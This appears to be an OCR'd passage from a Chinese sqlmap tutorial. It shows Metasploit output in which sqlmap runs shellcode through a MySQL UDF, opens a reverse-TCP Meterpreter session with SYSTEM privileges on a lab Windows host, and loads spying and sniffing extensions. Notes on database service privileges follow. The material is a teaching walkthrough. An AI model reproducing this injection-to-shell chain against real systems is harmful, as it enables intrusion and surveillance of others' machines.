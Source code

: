 
    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
    + -- --=[ 674 exploits - 351 auxiliary
    + -- --=[ 217 payloads - 27 encoders - 8 nops
    	=[ svn r12272 updated 4 days ago (2011.04.07)
    
    PAYLOAD =&gt; windows/meterpreter/reverse_tcp
    EXITFUNC =&gt; thread
    LPORT =&gt; 60641
    LHOST =&gt; 192.168.136.1
    [*] Started reverse handler on 192.168.136.1:60641 
    [*] Starting the payload handler...
    [hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_bineval', 
    please wait..
    [*] Sending stage (749056 bytes) to 192.168.136.129
    [*] Meterpreter session 1 opened (192.168.136.1:60641 -&gt; 192.168.136.129:1689) at Mon Apr 11 
    hh:mm:52 +0100 2011
    
    meterpreter &gt; Loading extension espia...success.
    meterpreter &gt; Loading extension incognito...success.
    meterpreter &gt; [-] The 'priv' extension has already been loaded.
    meterpreter &gt; Loading extension sniffer...success.
    meterpreter &gt; System Language : en_US
    OS              : Windows .NET Server (Build 3790, Service Pack 2).
    Computer        : W2K3R2
    Architecture    : x86
    Meterpreter     : x86/win32
    meterpreter &gt; Server username: NT AUTHORITY\SYSTEM
    meterpreter &gt; ipconfig
    
    MS TCP Loopback interface
    Hardware MAC: 00:00:00:00:00:00
    IP Address  : 127.0.0.1
    Netmask     : 255.0.0.0



	Intel(R) PRO/1000 MT Network Connection
	Hardware MAC: 00:0c:29:fc:79:39
	IP Address  : 192.168.136.129
	Netmask     : 255.255.255.0


	meterpreter &gt; exit

[*] Meterpreter session 1 closed.  Reason: User exit
默认情况下MySQL在Windows上以SYSTEM权限运行，PostgreSQL在Windows与Linux中是低权限运行，Microsoft SQL Server 2000默认是以SYSTEM权限运行，Microsoft SQL Server 2005与2008大部分是以NETWORK SERVICE有时是LOCAL SERVICE。

##  3.补充

###  3.1对Windows注册表操作

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前web应用支持堆查询。 当然，当前连接数据库的用户也需要有权限操作注册表。

####  读取注册表值
